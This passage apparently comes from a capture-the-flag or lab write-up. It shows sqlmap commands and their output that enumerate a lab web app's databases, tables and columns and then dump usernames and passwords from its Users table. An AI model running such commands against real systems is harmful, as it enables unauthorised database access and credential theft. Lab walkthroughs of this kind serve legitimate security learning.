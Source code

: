 #### SQLMap Database Dump 

{% highlight bash %}

available databases [4]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] Webapp
{% endhighlight %}

### SQLMap Database Table Enumeration 

{% highlight bash %}
sqlmap -o -u http://192.168.30.140:1337/978345210/index.php --forms -D Webapp
--tables
{% endhighlight %}

{% highlight bash %}
Database: Webapp
[1 table]
+-------+
| Users |
+-------+
{% endhighlight %} 

### SQLMap Enumerate Columns 

{% highlight bash %} 
sqlmap -o -u http://192.168.30.140:1337/978345210/index.php --forms -D Webapp
-T Users --columns
{% endhighlight %}

{% highlight bash %}
Database: Webapp
Table: Users
[3 columns]
+----------+--------------+
| Column   | Type         |
+----------+--------------+
| id       | int(10)      |
| password | varchar(255) |
| username | varchar(255) |
+----------+--------------+
{% endhighlight %}

### SQLMap Dump Passwords 

{% highlight bash %} 
sqlmap -o -u http://192.168.30.140:1337/978345210/index.php --forms -D Webapp
-T Users -C id,username,password --dump
{% endhighlight %}
